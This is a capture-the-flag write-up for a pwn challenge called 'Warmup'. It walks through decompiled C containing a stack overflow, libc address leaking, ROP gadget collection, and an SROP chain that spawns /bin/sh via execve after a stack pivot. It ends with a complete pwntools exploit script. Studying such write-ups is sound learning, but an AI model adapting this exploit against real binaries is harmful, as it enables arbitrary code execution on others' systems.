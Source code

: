 ## PWN - Warmup

This challenge was really fun. It might have been easier for some more experienced people but I am fairly new and had a lot of headache near the end.

This challenge started off fairly straight-forward since I knew from the first glance into the Ghidra disassembly code it would be a stack pivot problem since it only gives you 16 bytes to work with after the `RBP` register.

``` c
undefined8 main(void)

{
  char local_48 [64];
  
  helper();
  printf("%p\n",puts);
  printf("name>> ");
  fgets(name,0x200,stdin);
  printf("alright>> ");
  fgets(local_48,0x58,stdin);
  puts("okey");
  return 0;
}
```

So first off I thought I would write a ret2libc ROP chain into the "name" variable and then use the `pop rsp ; ret` gadget I found in the binary for a stack pivot.

Now the only problem here is, there is only 512 allocated bytes into the `name` buffer, which will not be enough. But I didn't know that until a few hours later when I realized the reason `system` was breaking was because it was setting the stack pointer way above where it was intended. Below is the assembler code before and at the point it breaks. Here you can see the stack pointer being set a long way further up and the point where the exploit breaks since it is trying to write into an unwriteable area in memory.

```
   0x00007f4b0993f92e <+46>:    sub    rsp,0x388
   0x00007f4b0993f935 <+53>:    mov    rax,QWORD PTR fs:0x28
   0x00007f4b0993f93e <+62>:    mov    QWORD PTR [rsp+0x378],rax
   0x00007f4b0993f946 <+70>:    xor    eax,eax
=> 0x00007f4b0993f948 <+72>:    mov    DWORD PTR [rsp+0x18],0xffffffff
```

### Solution

So if there is not enough space to call `system` then I decided to create an SROP chain, using gadgets from libc. But first I must leak the libc PIE offset. Thankfully the challenge gives you the address of `puts` so the hard work is already done for you.

``` python
puts = io.recvuntil(b"\n")
puts = int (puts, 16)
offset = puts - libc.symbols["puts"]
```

I will also need to gather all the gadgets needed for this.

``` python
pop_rsp = p64 (0x40118e) # push rbp ; mov rbp, rsp ; pop rsp ; ret
pop_rdi = rop.find_gadget(["pop rdi", "ret"])[0]
syscall = rop.find_gadget(["syscall"])[0]
pop_rax = rop.find_gadget(["pop rax", "ret"])[0]
binsh = p64 (next(libc.search(b"/bin/sh")) + offset)
```

Now with this I can create the SROP chain.

``` python
frame = SigreturnFrame()
frame.rax = 59 # execve syscall
frame.rdi = next(libc.search(b"/bin/sh")) + offset
frame.rsi = 0
frame.rdx = 0
frame.rip = syscall + offset

srop = p64(pop_rax + offset) + p64(0xf) + p64(syscall + offset) + bytes(frame)
```

And now all I must do is pivot the stack into `name` with the overflow.

``` python
target_buf_start = p64 (0x404060)

overflow = b"A"*64 + target_buf_start + pop_rsp + target_buf_start
```

### Final solution

``` python
from pwn import *

io = process ("./warmup")
file = context.binary = ELF ("./warmup")
libc = ELF ("/lib/x86_64-linux-gnu/libc.so.6")


# GADGETS

rop = ROP(libc)

puts = io.recvuntil(b"\n")
puts = int (puts, 16)
offset = puts - libc.symbols["puts"]

pop_rsp = p64 (0x40118e) # push rbp ; mov rbp, rsp ; pop rsp ; ret
pop_rdi = rop.find_gadget(["pop rdi", "ret"])[0]
syscall = rop.find_gadget(["syscall"])[0]
pop_rax = rop.find_gadget(["pop rax", "ret"])[0]
binsh = p64 (next(libc.search(b"/bin/sh")) + offset)


# SROP

frame = SigreturnFrame()
frame.rax = 59
frame.rdi = next(libc.search(b"/bin/sh")) + offset
frame.rsi = 0
frame.rdx = 0
frame.rip = syscall + offset

srop = p64(pop_rax + offset) + p64(0xf) + p64(syscall + offset) + bytes(frame)


# PIVOT SECTION

target_buf_start = p64 (0x404060)

overflow = b"A"*64 + target_buf_start + pop_rsp + target_buf_start

io.sendline(srop)
io.sendline (overflow)

io.interactive()
```
